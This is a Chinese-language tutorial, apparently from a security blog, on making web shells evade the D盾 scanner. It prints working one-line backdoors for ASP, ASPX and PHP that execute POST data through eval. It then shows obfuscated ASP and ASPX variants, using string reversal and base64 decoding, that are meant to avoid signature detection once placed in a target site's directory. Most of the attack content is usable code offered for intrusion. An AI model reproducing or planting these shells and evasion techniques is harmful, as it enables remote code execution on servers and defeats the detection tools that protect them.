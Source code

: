 D盾_Web查杀(D盾杀的Shell比较全)

ASP、ASPX、PHP原生态无污染一句话

```
<%eval request("z")%>；
<%@ Page Language="Jscript"%><%eval(Request.Item["z"],"unsafe");%>；
<?php @eval($_POST['z']);?>

```

来看一下D盾对原生一句话的查杀情况吧！

![2013122817573781043.jpg](http://drops.javaweb.org/uploads/images/af112fa9fef352b0747d9f62e6a9202b09afc4e3.jpg)

Shit!，级别为5(eval后门)全部杀掉！这样也就是说即使你的一句话已经躺在目标网站目录了，访问的时候也会被WAF断掉连接。这样一句话本身也就失去意义了，更别说去使用它了。

那么这种情况下该怎么做呢？我的答案是：就像Windows下做exe的免杀一样，找到杀软件杀掉的特征码然后改掉或是绕过。当然免杀Shell比免杀exe简单的多了……

开始对我们的一句话做“免杀”吧！在此之前先来了解一句话木马的原理。对比下asp、aspx、php一句话，你发现了什么？

![2013122818002311061.jpg](http://drops.javaweb.org/uploads/images/4b26613c43e5de013f923e5bebc26601e4f21daa.jpg)

看到了吧，不同语言的一句话构成几乎完全一致！(首先请求客户端数据，然后执行请求到的数据)至于执行数据的来源，可以是Post，也可以是Get、cookies、session等(依然是Post、Get)；如果考虑到数据长度、编码、隐蔽性等诸多因素当然还是使用Post方法最为合适。

那么服务器安全类软件杀的究竟是什么东东呢？前面说过了：“特征”，我们来做如下测试：

![2013122818021354299.jpg](http://drops.javaweb.org/uploads/images/8c81c0fb107ee7b42ea991908c3cafd0e1ab088c.jpg)

我把Request/POST前随便加了一个字符，再扫一扫，结果如上图。可见安全类软件杀掉的不是eval(execute/executeglobal/assert……)，而是eval+"请求数据"。当脚本内有eval字串时仅仅只是提醒而已(如果连执行函数都杀，那“上帝”造它干吗！)。但是上图中的三个脚本没一个是可以正常执行的，哪有srequest呢！

这样我们就没招了吗？答案是否定的！我们可以用这样的方式来绕一绕：[exec decoding(excoding)]=》伪代码。其中excoding为已经编码了的原生一句话。encode和decode函数自己创造吧……

经过一番功夫，我把Shell代码改造如下(当然如下代码都不是最好的，因为我有点懒):

ASP:

```
<%
Function MorfiCode(Code)
    MorfiCoder=Replace(Replace(StrReverse(Code),"/*/",""""),"\*\",vbCrlf)
End Function
Execute MorfiCode(")/*/z/*/(tseuqer lave")
%>

```

ASPX:

```
<script runat="server" language="Jscript">
function popup(str){
    var q = "u";
    var w = "afe";
    var a = q + "ns" + w;
    var b = eval(str,a);
    return(b);
}
</script>
<%
popup(popup(System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String("UmVxdWVzdC5JdGVtWyJ6Il0="))));
%>

```
